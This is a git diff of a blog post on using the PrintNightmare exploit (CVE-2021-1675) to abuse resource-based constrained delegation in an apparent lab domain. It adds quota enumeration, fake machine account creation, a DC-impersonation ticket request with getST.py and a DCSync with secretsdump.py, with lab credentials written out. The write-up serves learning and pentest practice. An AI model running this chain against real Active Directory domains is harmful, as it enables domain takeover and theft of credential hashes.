

[AHK] Automatic update :alien:

Changed region(s): [[0.0, 0.8257, 0.1538, 0.9908], [0.8923, 0.0826, 1.0, 0.1651], [0.1231, 0.4128, 0.2462, 0.4954]]

diff --git a/_posts/2021-06-30-leveraging-printnightmare-to-abuse-rbcd.md b/_posts/2021-06-30-leveraging-printnightmare-to-abuse-rbcd.md
@@ -98,7 +98,25 @@ $adsiobject.Put("msDS-allowedToActOnBehalfOfOtherIdentity", $SDBytes)
 $adsiobject.setinfo()
 ```
 
-Now I have to create a fake machine account to use it when it comes to requesting a forwardable ticket with S4U2Self & S4U2Proxy (some good references on how to abuse RBCD can be found on [PPN](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/delegation-abuse#resource-based-constrained-delegation-rbcd) and in my [HTB Hades write-up](https://snovvcrash.rocks/2020/12/28/htb-hades.html#abusing-kerberos-resource-based-constrained-delegation)):
+Now I have to create a fake machine account to use it when it comes to requesting a forwardable ticket with S4U2Self & S4U2Proxy (some good references on how to abuse RBCD can be found on [PPN](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/delegation-abuse#resource-based-constrained-delegation-rbcd) and in my [HTB Hades write-up](https://snovvcrash.rocks/2020/12/28/htb-hades.html#abusing-kerberos-resource-based-constrained-delegation)).
+
+Firstly, I will enumerate if `ms-DS-MachineAccountQuota` allows to add new computer accounts. Do it with PowerShell:
+
+```powershell
+Get-ADObject -Identity "DC=megacorp,DC=local" -Properties * | select ms-ds-machineAccountQuota
+```
+
+[![check-machineaccountquota-pwsh.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-machineaccountquota-pwsh.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-machineaccountquota-pwsh.png)
+
+Or do it remotely from Linux with [go-windapsearch](https://github.com/ropnop/go-windapsearch):
+
+```bash
+./go-windapsearch --dc 10.10.10.179 -d megacorp.local -u lowpriv -p 'Passw0rd1!' -m custom --filter '(&(objectClass=domain)(distinguishedName=DC=megacorp,DC=local))' --attrs ms-ds-machineAccountQuota
+```
+
+[![check-machineaccountquota-ldap.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-machineaccountquota-ldap.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-machineaccountquota-ldap.png)
+
+At this point I'm sure that new machine account creation will succeed:
 
 ```bash
 addcomputer.py megacorp.local/lowpriv:'Passw0rd1!' -dc-ip 10.10.10.179 -computer-name fakemachine -computer-pass 'Passw0rd2!'
@@ -149,34 +167,34 @@ python CVE-2021-1675.py megacorp.local/lowpriv:'Passw0rd1!'@10.10.10.179 '\\10.1
 
 [![trigger-the-exploit.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/trigger-the-exploit.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/trigger-the-exploit.png)
 
-In the background it will set the `PrincipalsAllowedToDelegateToAccount` property containing objects that can delegate to MULTIMASTER. It can be verified like follows:
+In the background it will set the `msDS-AllowedToActOnBehalfOfOtherIdentity` property containing objects that can delegate to MULTIMASTER. It can be verified like follows with PowerShell:
 
 ```powershell
-Get-ADComputer MULTIMASTER -Properties PrincipalsAllowedToDelegateToAccount
+Get-ADComputer MULTIMASTER -Properties * | select -Expand msds-allowedToActOnBehalfOfOtherIdentity
 ```
 
-[![check-properties-pwsh.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-properties-pwsh.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-properties-pwsh.png)
+[![check-delegation-pwsh.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-delegation-pwsh.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-delegation-pwsh.png)
 
-Or do it with [go-windapsearch](https://github.com/ropnop/go-windapsearch) remotely:
+Or I can modify the `findDelegation.py` script to look for delegations on DCs (get rid of this `(!(UserAccountControl:1.2.840.113556.1.4.803:=8192))` part of the search query [here](https://github.com/SecureAuthCorp/impacket/blob/4821d64e3a078a79e60c0b03f08d0984d9a17728/examples/findDelegation.py#L131) which excludes domain controllers from the result) and perform the enumeration from Linux:
 
 ```bash
-./go-windapsearch --dc 10.10.10.179 -d megacorp.local -u lowpriv -p 'Passw0rd1!' -m custom --filter '(&(objectClass=computer)(samAccountName=MULTIMASTER$))' --attrs msds-allowedToActOnBehalfOfOtherIdentity
+findDelegation.py megacorp.local/lowpriv:'Passw0rd1!' -dc-ip 10.10.10.179
 ```
 
-[![check-properties-ldap.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-properties-ldap.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-properties-ldap.png)
+[![check-delegation-ldap.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-delegation-ldap.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-delegation-ldap.png)
 
 Now I can request a service ticket for LDAP:
 
 ```bash
-getST.py megacorp.local/fakemachine:'Passw0rd2!' -dc-ip 10.10.10.179 -spn ldap/MULTIMASTER.megacorp.local -impersonate administrator
+getST.py megacorp.local/fakemachine:'Passw0rd2!' -dc-ip 10.10.10.179 -spn ldap/MULTIMASTER.megacorp.local -impersonate 'MULTIMASTER$'
 ```
 
 [![request-ticket.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/request-ticket.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/request-ticket.png)
 
-And finally DCSync the domain with `secretsdump.py`:
+And finally DCSync the domain with `secretsdump.py` impersonating the domain controller:
 
 ```bash
-export KRB5CCNAME=/home/snovvcrash/PrintNightmare/CVE-2021-1675/administrator.ccache
+export KRB5CCNAME=/home/snovvcrash/PrintNightmare/CVE-2021-1675/MULTIMASTER\$.ccache
 secretsdump.py multimaster.megacorp.local -dc-ip 10.10.10.179 -k -no-pass -just-dc-user administrator
 ```
 
